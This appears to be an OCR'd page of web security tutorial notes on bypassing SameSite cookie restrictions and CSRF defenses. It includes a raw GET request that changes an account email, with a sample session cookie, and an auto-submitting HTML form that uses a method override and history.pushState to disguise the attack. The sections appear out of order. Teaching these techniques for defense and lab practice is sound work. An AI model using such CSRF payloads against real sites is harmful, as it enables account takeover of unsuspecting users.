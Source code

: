 
## **Advanced Techniques for Bypassing CSRF Defenses**

### 1. **Bypassing SameSite Lax Restrictions Using GET Requests**

Even with **Lax** SameSite restrictions, attackers can still perform CSRF attacks if the server allows **GET requests** to trigger sensitive actions. For example:

```http
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

In this case, the attacker doesn’t need to provide a valid CSRF token, as GET requests may not require token validation, thus enabling the attacker to perform malicious actions (like changing the email) without being detected.

---

### 2. **Using `history.pushState` to Mask the Attack**

Attackers can use the `history.pushState` function to modify the browser's URL history and mask the attack. This can help avoid detection by users or security tools.

#### Example Exploit:
```html
<script>
    history.pushState('', '', '/');
</script>
<form action="https://vulnerable-website.com/email/change" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="email" value="pwned@evil-user.net">
</form>
<script>
    document.forms[0].submit();
</script>
```




# SameSite Cookie Restrictions and Bypass Techniques

## **What is SameSite in the Context of Cookies?**

**SameSite** is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. It provides partial protection against a variety of cross-site attacks, including:

- **CSRF (Cross-Site Request Forgery)**
- **Cross-Site Leaks**
- **Some CORS (Cross-Origin Resource Sharing) Exploits**
